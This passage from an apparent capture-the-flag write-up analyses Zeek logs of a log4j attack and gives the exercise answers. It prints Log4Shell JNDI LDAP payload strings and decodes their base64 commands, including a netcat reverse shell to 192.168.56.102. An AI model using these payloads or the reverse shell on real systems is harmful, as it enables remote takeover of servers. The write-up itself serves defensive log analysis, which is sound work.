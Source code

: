 We filter for `type uri`:

```bash

root@ip-10-10-162-16:/home/ubuntu/Desktop/Exercise-Files/log4j# cat http.log |zeek-cut uri |sort |uniq
/
/Exploit6HHc3BcVzI.class
/ExploitQ8v7ygBW4i.class
/ExploitSMMZvT8GXL.class
```

Anser: `.class`

### Investigate the log4j.log file. Decode the base64 commands. What is the name of the created file?


We filter for `value` in our `log4j.log`:

```bash
root@ip-10-10-162-16:/home/ubuntu/Desktop/Exercise-Files/log4j# cat log4j.log |zeek-cut value |sort|uniq
${jndi:ldap://127.0.0.1:1389}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
${jndi:ldap://192.168.56.102:389/test}
${jndi:ldap://192.168.56.102:389}

```
And we extract the `Base64` lines and translate them:

```bash
bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==}
d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==}
dG91Y2ggL3RtcC9wd25lZAo=}
```

Translated text: 

    nc 192.168.56.102 80 -e /bin/sh -vvv
    which nc > /tmp/pwned
    touch /tmp/pwned



Answer:`pwned`


